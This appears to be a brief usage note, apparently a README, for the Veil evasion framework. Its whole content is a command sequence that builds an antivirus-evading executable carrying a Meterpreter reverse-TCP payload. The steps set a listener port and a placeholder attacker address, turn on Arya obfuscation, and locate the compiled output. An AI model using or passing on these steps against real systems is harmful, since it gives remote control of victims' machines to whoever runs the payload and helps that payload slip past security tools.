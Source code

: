 # Veil Simple Usage

Generate exe:
```
$ veil
> use 1 (evasion)
> use 11 (cs/meterpreter/rev_tcp)
> set LPORT 4444
> set LHOST x.x.x.x
> set use ARYA y
> generate
$ ls /var/lib/veil/output/compiled/
```